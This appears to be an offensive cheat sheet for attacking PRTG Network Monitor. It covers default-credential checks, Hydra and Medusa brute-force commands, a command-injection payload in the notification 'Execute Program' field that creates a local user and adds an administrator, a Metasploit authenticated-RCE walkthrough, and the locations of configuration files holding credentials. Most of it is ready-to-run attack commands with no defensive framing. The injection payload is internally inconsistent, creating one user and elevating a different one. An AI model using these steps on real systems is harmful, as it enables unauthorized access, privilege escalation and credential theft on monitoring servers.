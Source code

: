 ### **Introduction**

PRTG Network Monitor is a comprehensive network monitoring tool that allows businesses to observe and manage their IT infrastructure. It provides real-time data on the health and performance of network devices, servers, and services, enabling IT administrators to detect outages, optimize performance, and ensure system reliability. PRTG supports a wide range of technologies and comes with flexible alerting, reporting capabilities, and an intuitive interface for easy operation.

### **Default Configuration and Credentials**

1.  Identify PRTG version  
    `curl -s http://[PRTG-DOMAIN]/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version`
2.  Check if the PRTG default administrator credentials (prtgadmin:prtgadmin) are in use by accessing the login page:  
    `http://[PRTG-DOMAIN]/index.htm`

### **Brute-Force PRTG Credentials**

1.  Brute-Forcing with Hydra:  
    `hydra -l admin -P /path/to/passwords.txt [PRTG-DOMAIN] http-post-form "/public/checklogin.htm:login=^USER^&password=^PASS^:Login failed"`
2.  Brute-Forcing with Medusa:  
    `medusa -h [PRTG-DOMAIN] -u admin -P /path/to/passwords.txt -M http -m DIR:/public/checklogin.htm -m POST:login=^USER^&password=^PASS^ -T 10`

### **Command Injection**

1.  Navigate to Notifications Configuration:  
    `Navigate to Setup > Account Settings > Notifications.`
2.  Add New Notification:  
    `Click the plus button on the right and select "Add new notification"`
3.  Configure Notification:  
    `Leave everything unchanged, scroll down to the bottom and select “Execute Program”.`
4.  Choose a demo PowerShell script (e.g., demo.ps1) as the program file.
5.  In the Parameter field, enter the following command:  
    `test.txt;net user hackfast p3nT3st! /add;net localgroup administrators anon /add`
6.  Save the notification.
7.  In the list of notifications, check the box next to the new notification.
8.  Click the bell icon at the top to test the notification.

### **Remote Code Execution (RCE)**

1.  Start Metasploit:  
    `msfconsole`
2.  Search for PRTG-Related Exploits:  
    `searchsploit PRTG`
3.  Use exploit module:  
    `use exploit/windows/http/prtg_authenticated_rce`
4.  Set the Target Host:  
    `set RHOSTS [PRTG-URL]`
5.  Set the Username:  
    `set ADMIN_USERNAME admin`
6.  Set the Password:  
    `set ADMIN_PASSWORD prtgadmin`
7.  Run exploit:  
    `exploit`

**Extract Configuration and Data**:

1.  Locate configuration files to extract credentials and settings:  
    `\ProgramData\Paessler\PRTG Network Monitor`  
    `PRTG Configuration.dat`  
    `PRTG Configuration.old.bak`
2.  Encrypted password block format:
    
    ```
    <dbpassword>
        <flags>
            <encrypted/>
        </flags>
    </dbpassword>
    ```